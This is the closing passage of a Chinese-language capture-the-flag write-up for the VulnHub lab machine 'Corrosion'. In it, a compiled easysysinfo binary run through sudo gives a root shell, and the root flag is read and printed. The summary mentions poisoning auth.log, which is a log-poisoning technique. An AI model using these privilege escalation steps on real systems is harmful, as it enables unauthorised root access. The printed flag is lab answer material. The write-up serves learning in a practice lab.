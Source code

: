    然后编译该C语言文件
    
    ```python
    gcc easysysinfo.c -o easysysinfo
    ```
    
    执行
    
    ```python
    randy@corrosion:~/tools$ sudo /home/randy/tools/easysysinfo
    root@corrosion:/home/randy/tools# 
    ```
    
    获得root！！！
    
9. 读取flag文件
    
    ```python
    root@corrosion:~# cat root.txt 
    FLAG: 4NJSA99SD7922197D7S90PLAWE 
    
    Congrats! Hope you enjoyed my first machine posted on VulnHub! 
    Ping me on twitter @proxyprgrammer for any suggestions.
    
    Youtube: https://www.youtube.com/c/ProxyProgrammer
    Twitter: https://twitter.com/proxyprgrammer
    ```
    

## 总结

学到了思路，污染`auth.log`文件等